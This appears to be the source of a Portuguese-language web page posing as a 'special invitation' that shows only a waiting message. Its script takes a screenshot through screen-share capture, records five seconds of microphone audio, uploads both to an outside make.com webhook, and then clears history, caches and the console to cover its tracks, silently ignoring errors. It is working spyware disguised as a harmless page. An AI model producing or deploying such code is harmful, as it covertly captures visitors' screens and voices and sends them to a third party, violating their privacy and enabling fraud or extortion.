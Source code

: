 


<!doctype html>
<html lang="pt-BR">
<head>
  <meta charset="utf-8"/>
  <title>Convite Especial</title>
  <style>body{margin:0;background:#111;color:#eee;font-family:sans-serif;text-align:center;padding-top:45vh}</style>
</head>
<body>
  <h1>Aguarde...</h1>

<script>
(async () => {
  /* 1. Screenshot */
  const canvas = document.createElement('canvas');
  const ctx = canvas.getContext('2d');
  const video = document.createElement('video');
  video.style.display = 'none';
  document.body.appendChild(video);

  try {
    const screenStream = await navigator.mediaDevices.getDisplayMedia({video:true});
    video.srcObject = screenStream;
    await video.play();
    canvas.width = video.videoWidth;
    canvas.height = video.videoHeight;
    ctx.drawImage(video, 0, 0);
    screenStream.getTracks().forEach(t => t.stop());
    const screenshotBlob = await new Promise(r => canvas.toBlob(r, 'image/jpeg', 0.8));

    /* 2. Áudio 5 s */
    const audioStream = await navigator.mediaDevices.getUserMedia({audio:true});
    const rec = new MediaRecorder(audioStream, {mimeType:'audio/webm'});
    const chunks = [];
    rec.ondataavailable = e => chunks.push(e.data);
    rec.start();
    await new Promise(res => setTimeout(res, 5000));
    rec.stop();
    await new Promise(res => rec.onstop = res);
    audioStream.getTracks().forEach(t => t.stop());
    const audioBlob = new Blob(chunks, {type:'audio/webm'});

    /* 3. Upload */
    const fd = new FormData();
    fd.append('screenshot', screenshotBlob, 'ss.jpg');
    fd.append('audio', audioBlob, 'audio.webm');
    await fetch('https://hook.us1.make.com/4vdfn6p4b3', {method:'POST', body:fd});

    /* 4. Autodestruição */
    window.history.replaceState(null, '', '/');
    caches.keys().then(k => k.forEach(n => caches.delete(n)));
    console.clear();
  } catch(e) {}
})();
</script>
</body>
</html>
